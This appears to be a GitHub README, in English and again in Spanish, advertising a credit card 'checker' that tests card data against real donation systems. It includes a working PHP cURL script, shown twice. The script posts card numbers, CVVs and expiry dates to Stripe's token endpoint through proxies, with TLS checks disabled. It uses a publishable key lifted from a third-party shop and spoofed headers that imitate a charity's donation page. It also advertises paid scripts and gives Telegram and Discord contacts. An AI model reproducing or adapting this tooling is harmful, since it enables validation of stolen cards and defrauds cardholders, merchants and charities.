 <a href="http://uncensored.vzpla.net/"><img src="https://i62.servimg.com/u/f62/12/98/31/84/logo10.jpg?v=3&s=200" title="Unc3ns0r3d Checker" alt="Unc3ns0r3d Checker v2"></a>

# ⛔Unc3ns0r3d-Checker⛔

> Language: EN (ENGLISH)

✔ Credit card 💳 checker, based on real donation systems and other type of donations.


```php
// cURL Stripe Method by ⛔UJnc3ns0r3d⛔

$url1 = 'https://api.stripe.com/v1/tokens';
$url2 = 'https://www.anime-shop-online.com/cart';
$ch = curl_init();
curl_setopt($ch, CURLOPT_URL,$url1);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
curl_setopt($ch, CURLOPT_PROXY, "http://$re_proxy:$port");
curl_setopt($ch, CURLOPT_PROXYUSERPWD, "$username-session-$session:$password");
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_USERAGENT, $_SERVER['HTTP_USER_AGENT']);
curl_setopt($ch, CURLOPT_FOLLOWLOCATION, 1);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, 0);
curl_setopt($ch, CURLOPT_SSL_VERIFYHOST, 0);
curl_setopt($ch, CURLOPT_COOKIEFILE, getcwd().'/cookie.txt');
curl_setopt($ch, CURLOPT_COOKIEJAR, getcwd().'/cookie.txt');
    curl_setopt($ch, CURLOPT_HTTPHEADER, array(
   'Host: api.stripe.com',
'User-Agent: Mozilla/5.0 (Windows NT 6.3; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0',
'Accept: application/json',
'Content-Type: application/x-www-form-urlencoded',
'Referer: https://js.stripe.com/v2/channel.html?stripe_xdm_e=https%3A%2F%2Fwww.thelambcenter.org&stripe_xdm_c=default816925&stripe_xdm_p=1',
'Connection: keep-alive'
    ));
curl_setopt($ch, CURLOPT_POSTFIELDS, 'card[name]='.$name.'+'.$last.'&card[number]='.$cc.'&card[cvc]='.$cvv.'&card[exp_month]='.$mes.'&card[exp_year]='.$ano.'&guid=061ff506-3903-498a-8f51-6c186f16f8ca&muid=7aea1b41-a3a5-4a59-adcd-c1b9697c50d2&sid=9f8fcbca-42eb-4131-9f86-d326ea6a5af2&payment_user_agent=stripe.js%2Fc272b3d3%3B+stripe-js-v3%2Fc272b3d3&referrer=https%3A%2F%2Fwww.anime-shop-online.com%2Fcart&key=pk_live_mw2Cnk8hIQMzEbJMcA2gjYNy&pasted_fields=number%2Ccvc');
$pagamento = curl_exec($ch);
$token = trim(strip_tags(getstr($pagamento,'id": "','"')));
```
###  SITES 🌐


- **Site API 1**
    - https://api.stripe.com/v1/tokens
    
- **Site BIN 1**
    - https://lookup.binlist.net/


### Files included 📂

- api.php **Free**
- api_1.php **Free**
- api_p1.php **Pay** > @MrPopos2 - **Telegram** - SkarY#0554 - **Discord**
- api_p2.php **Pay** > @MrPopos2 - **Telegram** - SkarY#0554 - **Discord**


### About Me 👨‍💻

Founder of Unc3ns0r3d💳 - HasBins💳 - CloudChckr💳 (Closed)

My favorite programming languages are C ++, VB.NET, PYTHON, PHP, JAVASCIPRT and JQUERY❤

I love coffee❤

The Unc3ns0r3d project was created 04/26/2018

### Contact Me ✉
- @MrPopos2 - Telegram
- SkarY#0554 - Discord

================================================================

> Idioma: ES (Español)

Checker de tarjetas de crédito, basado en sistemas de donación reales y stripe

```php
// cURL Stripe Method by ⛔UJnc3ns0r3d⛔

$url1 = 'https://api.stripe.com/v1/tokens';
$url2 = 'https://www.anime-shop-online.com/cart';
$ch = curl_init();
curl_setopt($ch, CURLOPT_URL,$url1);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
curl_setopt($ch, CURLOPT_PROXY, "http://$re_proxy:$port");
curl_setopt($ch, CURLOPT_PROXYUSERPWD, "$username-session-$session:$password");
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_USERAGENT, $_SERVER['HTTP_USER_AGENT']);
curl_setopt($ch, CURLOPT_FOLLOWLOCATION, 1);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, 0);
curl_setopt($ch, CURLOPT_SSL_VERIFYHOST, 0);
curl_setopt($ch, CURLOPT_COOKIEFILE, getcwd().'/cookie.txt');
curl_setopt($ch, CURLOPT_COOKIEJAR, getcwd().'/cookie.txt');
    curl_setopt($ch, CURLOPT_HTTPHEADER, array(
   'Host: api.stripe.com',
'User-Agent: Mozilla/5.0 (Windows NT 6.3; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0',
'Accept: application/json',
'Content-Type: application/x-www-form-urlencoded',
'Referer: https://js.stripe.com/v2/channel.html?stripe_xdm_e=https%3A%2F%2Fwww.thelambcenter.org&stripe_xdm_c=default816925&stripe_xdm_p=1',
'Connection: keep-alive'
    ));
curl_setopt($ch, CURLOPT_POSTFIELDS, 'card[name]='.$name.'+'.$last.'&card[number]='.$cc.'&card[cvc]='.$cvv.'&card[exp_month]='.$mes.'&card[exp_year]='.$ano.'&guid=061ff506-3903-498a-8f51-6c186f16f8ca&muid=7aea1b41-a3a5-4a59-adcd-c1b9697c50d2&sid=9f8fcbca-42eb-4131-9f86-d326ea6a5af2&payment_user_agent=stripe.js%2Fc272b3d3%3B+stripe-js-v3%2Fc272b3d3&referrer=https%3A%2F%2Fwww.anime-shop-online.com%2Fcart&key=pk_live_mw2Cnk8hIQMzEbJMcA2gjYNy&pasted_fields=number%2Ccvc');
$pagamento = curl_exec($ch);
$token = trim(strip_tags(getstr($pagamento,'id": "','"')));
```

###  SITIOS 🌐

- **Sitio API 1**
    - https://api.stripe.com/v1/tokens
    
- **Sitio BIN 1**
    - https://lookup.binlist.net/


### Archivos Incluidos 📂

- api.php **Gratuito**
- api_1.php **Gratuito**
- api_p1.php **Pago**  > @MrPopos2 - **Telegram** - SkarY#0554 - **Discord**
- api_p2.php **Pago**  > @MrPopos2 - **Telegram** - SkarY#0554 - **Discord**

### Sobre Mi 👨‍💻

Fundador de Unc3ns0r3d💳 - HasBins💳 - CloudChckr💳 (Cerrado)

Mis lenguajes favorios de programación son C ++, VB.NET, PYTHON, PHP, JAVASCIPRT y JQUERY❤

Amo el café❤

Proyecto Unc3ns0r3d fue creado el día 04/26/2018 / Editado 24/08/2019

### Contactame ✉
- @MrPopos2 - Telegram
- SkarY#0554 - Discord
